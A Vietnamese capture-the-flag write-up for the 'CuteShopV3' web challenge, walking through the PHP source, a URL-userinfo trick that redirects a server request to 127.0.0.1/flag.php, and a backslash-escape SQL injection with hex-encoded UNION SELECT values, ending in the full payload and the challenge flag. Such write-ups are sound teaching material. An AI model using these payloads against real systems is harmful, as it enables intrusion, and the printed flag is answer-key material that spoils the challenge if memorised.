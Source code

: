 # CuteShopV3 (184)

Sau khi đọc source code thì mục tiêu của ta là phải kết nối đến `/flag` với host là `127.0.0.1` thì sẽ lấy được flag.

```php
define("BASE_API_URL", "http://shop-api:8080"); // Trong config.php

// Trong shopping.php
$items_img = json_decode(file_get_contents(BASE_API_URL . "/items.json"))->{"msg"};
$items = json_decode(file_get_contents(BASE_API_URL . $_SESSION["api_path"] . "/items.json"))->{"msg"};
```

Để có thể kết nối được với `127.0.0.1/flag` thì có một cách là thông qua `$_SESSION["api_path"]`

Để làm như thế thì `$_SESSION["api_path"]` phải bằng `@127.0.0.1/flag.php#`

→ Url trở thành: `http://shop-api:8080@127.0.0.1/flag.php#/items.json`

URL này sẽ kết nối đến `127.0.0.1/flag.php` với `username:password` là `shop-api:8080` (không quan trọng username với password là gì)

---

Việc tiếp theo cần làm đó chính là tìm cách để chỉnh được `$_SESSION["api_path"]` của mình.

Ở trong file `login.php` ta thấy:

```php
if (preg_match("/'|\"/", $_POST['username']) || preg_match("/'|\"/", $_POST['password']))
		die("Làm ơn đừng hack 😵😵😵");
$sql = "select username, path from users where username='" .$_POST['username'] ."' and password='" .$_POST['password'] ."'";
$sth = $conn->query($sql);
```

Có thể thấy rằng ở đây có thể SQLi được, vì filter rất đơn giản (chỉ loại trừ 2 kí tự `"` và `'`)

Nếu ta nhập ký tự `\` vào username thì có thể thoát khỏi dấu ngoặc đơn dễ dàng và câu lệnh sql trở thành

`select username, path from users where username=' \' and password='" .$_POST['password'] ."'`

Vì vậy SQL chỉ kiểm tra nếu `username = ' \' and password='` và hiển nhiên sẽ không trả về thứ gì vì không cúa username nào như thế.

Bây giờ ta có thể nhập các câu lệnh SQL thoải mái vào ô `password`

Vì ta cần `path = @127.0.0.1/flag.php#` nên ta có thể sử dụng `UNION` để thêm dữ liệu tuỳ thích vào

Câu lệnh SQLi sẽ có dạng:  `UNION SELECT 'a' AS username, '@127.0.0.1/flag.php#' AS path -- -`  

Nhưng vì filter chặn kí tự `'` nên ta có thể đổi về dạng hex

→ Payload cuối cùng:

`username = \`

`password =  UNION SELECT 0x61 AS username , 0x403132372e302e302e312f666c61672e70687023 AS path -- -`

Lưu ý: có dấu cách ở trước `UNION`

Sau khi nhập vào sẽ lấy được flag:

![Flag Screen](shopcuteV3.png)

Flag: `HCMUS-CTF{r@inb0w_hAv3_7_c0loR_wh1le_URL_HavE_8_p@rtS}`